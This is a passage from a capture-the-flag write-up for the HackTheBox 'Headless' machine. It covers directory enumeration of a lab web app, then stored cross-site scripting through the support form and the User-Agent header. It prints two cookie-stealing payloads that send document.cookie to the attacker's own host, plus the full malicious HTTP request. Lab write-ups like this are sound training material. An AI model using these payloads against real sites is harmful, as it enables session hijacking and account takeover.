 {% include img_link src="/img/headless/headless_5000_front_page" alt="front_page" ext="png" trunc=600 %}

I looked over the webpage and there wasn't any link or reference besides support.

![support]({{ page.img }}_5000_support_contact.png)

```bash
dirsearch -u http://10.10.11.8:5000

  _|. _ _  _  _  _ _|_    v0.4.3.post1
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/raccoon/_hacking/HackTheBox/Active/Headless/reports/http_10.10.11.8_5000/_24-03-28_23-08-10.txt

Target: http://10.10.11.8:5000/

[23:08:10] Starting: 
[23:09:33] 401 -  317B  - /dashboard
[23:10:47] 200 -    2KB - /support
```

It's safe to say on this easy box we need to somehow access that dashboard. 

![dashboard fail]({{ page.img }}_5000_dashboard_unauthorized.png)

I did check some formats of sending different user/pass data but I couldn't find a way to get a positive response. On to the support page.

So here we have a handful of parameters that get passed to some backend that processes them. A way to traditionally interact with these portals is XSS or template injection, with the former of the 2 being marginally easier to test for. Below is my test payload for every parameter:

```javascript
<img src=x onerror=this.src="http://10.10.14.5:8081/?"+document.cookie;>
```

![hack detected]({{ page.img }}_5000_hacking_attempt.png)

Peculiar. My message wasn't passed through, or any parameter for that matter which I sent XSS through. This message does leak some important information however. The User-Agent is stored in a place where only admins can access. And that sounds to me like a prime XSS target.

# User as dvir

## User-Agent XSS

Traditionally User-Agent can't be used for injection purposes and this is to my knowledge the only case where it can be: when you deliberately store the User-Agent on a webpage. Now to the exploit.

```html
POST /support HTTP/1.1
Host: 10.10.11.8:5000
Content-Length: 86
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.8:5000
Content-Type: application/x-www-form-urlencoded
User-Agent: <script>document.location='http://10.10.14.5/?'+document.cookie</script>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.11.8:5000/support
Accept-Encoding: gzip, deflate
```